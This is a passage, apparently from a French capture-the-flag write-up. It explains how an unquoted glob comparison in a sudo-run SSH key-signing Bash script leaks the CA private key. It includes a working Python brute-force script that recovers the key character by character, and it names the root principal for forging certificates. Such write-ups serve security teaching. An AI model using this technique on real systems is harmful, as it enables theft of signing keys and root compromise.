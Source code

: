 ```bash
if ! [[ $serial =~ ^[0-9]+$ ]]; then
    echo "Error: '$serial' is not a number."
    usage
fi

ssh-keygen -s "$ca_file" -z "$serial" -I "$username" -V -1w:forever -n "$principal" "$public_key_file"
```

Après avoir examiné attentivement le script, nous découvrons une vulnérabilité: le côté droit de l'opération de correspondance `[[ $itca == $ca ]]` n'est pas entre guillemets, ce qui le rend vulnérable aux attaques par force brute. Sans ces guillemets, Bash effectue un "pattern matching" au lieu d'interpréter les données comme une chaîne de caractères.

Par exemple, si nous avons une opération de recherche de mot de passe avec `[[$DB_PASS == mystrongpassword]]`, la saisie de `mys*` sera évaluée à `vrai` parce que c'est un pattern global correspondant à n'importe quelle chaîne commençant par ces trois lettres. De même, dans le script `sign_key.sh`, la ligne `[[ $itca == $ca ]]` compare les deux chaînes sans les guillemets, ce qui nous permet de reconstruire le contenu de la clé du CA (Autorité de Certification) de manière progressive, un caractère à la fois. Nous utilisons le script ci-dessous pour récupérer la clé.

> Dans `etc/ssh/auth_principals/root` nous trouvons que le nom de principal valide pour root est `root_user`.

```python
import subprocess

charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/=\n "

discovered_ca = "-----BEGIN OPENSSH PRIVATE KEY-----\n"

temp_ca_file = "temp_ca_guess"

while True:
    found_character = False

    for char in charset:
        current_guess = discovered_ca + char + "*"
        with open(temp_ca_file, "w") as f:
            f.write(current_guess)
        
        result = subprocess.run(
            ["sudo", "/opt/sign_key.sh", temp_ca_file, "test.pub", "root", "root_user", "1"],
            stdout=subprocess.PIPE,
            text=True
        )
        
        if "Use API for signing with this CA" in result.stdout:
            # Correct character found, append to discovered_ca
            discovered_ca += char
            print(f"[+] Discovered so far: {discovered_ca}")
            found_character = True
            break  # Break inner loop to continue building the CA string
    
    if not found_character:
        if "-----END OPENSSH PRIVATE KEY-----" in discovered_ca:
            print(f"[!] Full CA content discovered:\n{discovered_ca}")
        else:
            print(f"[!] Script terminated prematurely. Partial CA content:\n{discovered_ca}")
        break
```
